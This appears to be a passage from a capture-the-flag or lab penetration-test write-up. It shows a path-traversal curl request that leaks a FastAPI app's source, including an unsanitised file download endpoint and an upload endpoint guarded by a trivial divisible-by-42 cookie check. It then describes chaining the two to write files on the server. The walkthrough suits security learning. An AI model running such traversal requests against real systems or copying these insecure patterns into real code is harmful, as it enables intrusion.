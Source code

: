 The tester used the vulnerability to find sensitive files. As the response headers indicated the server was running python the tester searched for relevant files and file types. 

```
curl  http://10.10.11.123/file_management/?file=../app/main.py        
from typing import Optional
from fastapi import File, UploadFile, Request 
from fastapi import FastAPI

<snip>

@app.get("/file_management/")
async def download_file(file):
    file_path = "files/" + file
    return FileResponse(file_path)

@app.put("/file_upload/")
async def file_upload(request: Request, file: UploadFile = File(...)):
    auth = request.headers.get("Cookie")[5:]
    # We are divisible by 42
    if int(auth, 16) % 42 != 0:
        return JSONResponse(status_code=500, content={'message': 'Internal Server Error'})
    try:
        os.mkdir("files")
        print(os.getcwd())
    except Exception as e:
        print(e)
    file_name = os.getcwd() + "/files/" + file.filename.replace(" ", "-")
    try:
        with open(file_name,'wb+') as f:
            f.write(file.file.read())
            f.close()
    except:
        return JSONResponse(status_code=500, content={'message': 'Internal Server Error'})
    return JSONResponse(status_code=200, content={'message': 'File upload successful /file_management/?file=' + file.filename.replace(" ", "-") })
                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

The tester discovered the "main.py" file. This file shows the main functions of the server. The file revealed that there was a file upload feature on the server. As the "download_file" was vulnerable LFI and directory transversal, and nothing in the code indicated over wise, the tester assumed the upload feature was also vulnerable. This could allow the tester, in combination with the upload feature, to write files to the server. 

The upload feature is "protected" with a basic authentication cookie requirement. As commented in the code, the supplied cookie must be dividable by 42 and hex encoded. Therefore the tester crafted the below test payload with a "auth" cookie, that was divisible by 42. The payload would upload a text file to the "tmp" directory. The tester checked the success of the test using the LFI vulnerability. 
